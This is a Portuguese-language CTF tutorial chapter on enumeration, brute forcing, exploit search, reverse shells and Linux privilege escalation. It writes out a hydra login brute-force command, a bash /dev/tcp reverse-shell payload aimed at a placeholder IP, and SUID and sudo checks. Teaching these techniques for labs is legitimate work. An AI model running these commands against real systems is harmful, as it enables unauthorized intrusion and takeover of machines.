 # 🛠️ Técnicas Úteis pra CTFs

Agora que você já fez uns labs, tá na hora de entender as **técnicas que aparecem o tempo todo**. Essas aqui são as armas básicas que você vai usar em 80% dos desafios.

---

## 🔍 Enumeração (a fase mais importante)

Antes de sair clicando e rodando exploit, **primeiro você precisa entender o alvo**. A enumeração é basicamente "fuçar tudo".

### Ferramentas e comandos:

- `nmap -sC -sV IP`: scan completo pra achar serviços e versões
- `gobuster dir -u http://IP -w wordlist.txt`: força bruta de diretórios
- `whatweb http://IP`: identifica tecnologias web
- `netcat`, `ftp`, `smbclient`, `enum4linux`: testando protocolos abertos

💡 **Dica**: quanto mais info você tiver, menos tentativa e erro depois.

---

## 🔓 Brute force e cracking

Nem sempre a senha tá escondida. Às vezes ela só tá fraca.

### Exemplos:

- `hydra`: ataque de força bruta em login
- `john` ou `hashcat`: quebrar hash de senhas (créditos ao Rick que me ensinou usar o John

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-form-post "/login:username=^USER^&password=^PASS^:F=login failed"
```


💣 Exploração (Exploiting)

Depois de descobrir a versão de um serviço ou app, você pode procurar por vulnerabilidades conhecidas.
Ferramentas:

    searchsploit: busca por exploits locais

    exploit-db.com: consulta manual

    Metasploit: uso automatizado (mas nem sempre é permitido)

```
searchsploit apache 2.4.49
```


🐚 Reverse Shell

Pra ganhar acesso ao sistema, você muitas vezes injeta um payload que te dá uma shell reversa.
Exemplo com Netcat:

No seu PC (listener):
```
nc -lvnp 4444
```
No alvo (payload):
```
bash -i >& /dev/tcp/SEU_IP/4444 0>&1
```

🔼 Escalada de Privilégio (Privilege Escalation)

Pegou acesso como www-data? Show. Mas você quer virar root.
O que olhar:

    Arquivos com permissão errada (find / -perm -4000 -type f 2>/dev/null)

    Crontabs (cat /etc/crontab)

    Scripts executados por root (sudo -l)

    Versões vulneráveis do kernel (uname -a)

Ferramentas úteis:

    linpeas.sh

    linux-exploit-suggester.sh

    sudo -l (às vezes só isso já entrega o ouro)



🔚 Resumo

✅ Enumeração é tudo
✅ Testa credenciais simples (admin/admin)
✅ Pesquisa por exploits
✅ Usa reverse shell pra ganhar acesso
✅ Escala privilégio pra virar root

No próximo capítulo, vamos focar em escalar privilégios em detalhe.

